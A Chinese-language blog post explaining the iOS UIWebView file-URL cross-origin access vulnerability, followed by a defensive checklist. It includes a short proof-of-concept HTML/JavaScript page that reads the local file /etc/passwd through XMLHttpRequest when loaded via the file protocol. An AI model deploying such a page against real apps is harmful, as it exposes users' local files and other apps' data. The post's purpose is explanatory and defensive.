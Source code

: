 ```yaml
---
title: 谈一谈iOS平台跨域访问漏洞
date: 2018-01-01 00:00:00
author: Lefe_x
layout: post
---
```



最近很多关于 `iOS Webview` 漏洞的话题，利用这个机会，我也来说说对这个漏洞的理解，如果有理解不对的地方，欢迎指出，同时感谢 @折腾范儿_味精 的指点。

iOS平台跨域访问漏洞成因是由于 `UIWebView` 默认开启了`WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 选项。这样黑客利用这个漏洞给某个 APP 下发一个 `HTML` 文件，当 `UIWebView` 使用 `file` 协议打开这个 `HTML` 文件，而 `HTML` 文件中含有一段窃取用户数据的 `JS` 代码，这样就导致用户数据泄露的可能。为了演示这个漏洞，我特意写了一个 `Demo`，截图是运行结果。

```objc
NSString *filePath = [[NSBundle mainBundle] pathForResource:@"index" ofType:@"html"];
_webView = [[UIWebView alloc] initWithFrame:self.view.bounds];
[_webView loadRequest:[NSURLRequest requestWithURL:[NSURL fileURLWithPath:filePath]]];
```

```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            // 这个可以是手机任意一个文件地址
            var localfile = "/etc/passwd"
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == 4) {
                    alert(xhr.responseText);
                }
            }
           try {
              xhr.open("GET", localfile, true);
              xhr.send();
           } catch (ex) {
              alert(ex.message);
           }
        </script>
    </body>
</html>
```

![](https://github.com/southpeak/iOS-tech-set/blob/master/images/2018/01/17-1-1.jpg?raw=true)

运行上面的代码，会读取出手机端 `/etc/passwd` 的文件。这样的话，我们可以利用这个漏洞访问其他应用的数据，而不必需要用户的许可。而 `WKWiebView` 的 `WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 默认是关闭的，不会存在这样的风险。

那么如何觉得自己的 APP 是否是安全的呢？看看有没有满足下面几点：

1. `APP` 中是否含有远程下发的 `html` 供 `APP` 加载，而中途会被别人篡改；
2. 加载 `HTML` 文件是通过 `file` 协议加载的；
3. 使用的是否为 `UIWebView`；
4. 使用 `WKWiebView` 是否有主动开启 `WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 这两个属性。
